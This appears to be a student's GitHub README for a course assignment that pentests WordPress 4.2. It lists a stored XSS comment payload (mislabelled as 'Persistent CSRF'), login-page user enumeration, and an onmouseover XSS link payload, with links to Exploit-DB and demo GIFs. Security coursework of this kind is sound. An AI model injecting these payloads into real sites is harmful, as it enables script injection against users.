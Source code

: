 # Cybersecurity_Week_7-8
Pentesting for Wordpress 4.2 for Cybersecurity Week 7 &amp; 8 Assignment

1.Persisten CSRF  
-In reply/comment post: 
  `<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA...[64 KB]..AAA'></a>`


Vulnerability: CSRF  
Version: 4.2  
Source:[Code](https://www.exploit-db.com/exploits/36844)  
![Persisten CSRF](https://github.com/atsui4688/Cybersecurity_Week_7-8/blob/master/Persisten%20CSRF.gif)  

2.User Enumeration  
-At the login page, WordPress version 4.2 will notify you if a username exists when you attempt to login  
Vulnerability: User Enumeration  
Version: 4.2  
![User Enumeration](https://github.com/atsui4688/Cybersecurity_Week_7-8/blob/master/User%20Enumeration.gif)  

3.Authenticated Shortcode Tags XSS  
-In a comment/reply: `<a href = "XSS" onmouseover=alert(1) rel="nofollow">CLICK ME!</a>`  
-Hover over the link in the comment.
  
Vulnerability: XSS  
Version: 4.2  
Source:[Code](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)  
![Authenticated Shortcode Tags XSS](https://github.com/atsui4688/Cybersecurity_Week_78/blob/master/Authenticated%20Shortcode%20Tags%20XSS.gif)  
